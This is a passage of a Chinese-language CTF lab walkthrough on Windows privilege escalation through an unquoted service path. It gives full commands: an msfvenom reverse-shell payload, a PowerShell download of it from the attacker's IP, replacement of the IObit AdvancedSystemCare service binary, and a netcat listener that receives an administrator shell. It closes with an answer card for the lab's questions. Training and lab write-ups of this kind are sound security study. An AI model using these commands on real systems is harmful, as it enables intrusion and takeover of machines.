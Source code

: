 ![image-20221013230016461](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013230016461.png)

运行winPEAS之后，查看输出的服务信息，观察在运行时"未引用路径"的服务名称：

![image-20221013230716190](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013230716190.png)

使用msfvenom生成一个exe形式的反向shell payload，输出的文件名和服务对应的文件名相同（此处payload设置的端口，不要使用刚刚建立普通shell的端口）：

```shell
#使用终端3界面
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.30.69 LPORT=4444 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

![image-20221013231619415](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013231619415.png)

然后可以通过 PowerShell 将这些数据传输到目标系统中:

```cmd
#使用终端2界面
powershell -c wget "http://10.14.30.69/ASCService.exe" -outfile "ASCService.exe"
```

![image-20221013231938619](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013231938619.png)

然后，我们可以停止合法的服务运行，并用我们的恶意二进制文件替换应用程序文件:

```cmd
sc stop AdvancedSystemCareService9

copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

![image-20221013232400577](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013232400577.png)

在重新启动服务之前，需要在本地机器上使用创建有效负载时引用的端口设置一个netcat侦听器:

```shell
#使用终端3界面
nc -lvnp 4444
```

当攻击机上的netcat侦听器正在运行时，可以在目标机上重新启动刚才停止的服务:

```shell
#终端2界面
sc start AdvancedSystemCareService9
```

在目标机上重启服务之后，攻击机将获取到反向shell，权限为管理员级别，现在在攻击机界面操作：切换到 Administrator 的 Desktop 目录并获取 root.txt 文件

```cmd
#在终端3界面
cd C:\Users\Administrator\Desktop  
dir
more root.txt
```

![image-20221013232918006](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013232918006.png)

**答题卡**

![image-20221013233546568](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013233546568.png)
